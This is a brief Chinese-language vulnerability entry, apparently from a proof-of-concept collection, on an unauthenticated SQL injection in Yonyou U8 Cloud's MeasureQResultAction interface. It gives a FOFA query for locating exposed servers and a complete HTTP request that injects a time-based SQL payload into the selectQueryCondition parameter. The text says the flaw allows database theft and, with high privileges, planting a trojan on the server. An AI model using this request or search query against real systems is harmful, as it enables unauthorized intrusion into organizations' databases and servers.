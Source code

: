 # 用友U8Cloud系统接口MeasureQResultAction存在SQL注入漏洞

用友U8 Cloud nc.ui.iufo.query.measurequery.MeasureQResultAction 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
title=="U8C"
```

## poc

```java
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.query.measurequery.MeasureQResultAction&method=execute&selectQueryCondition=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408241854934.png)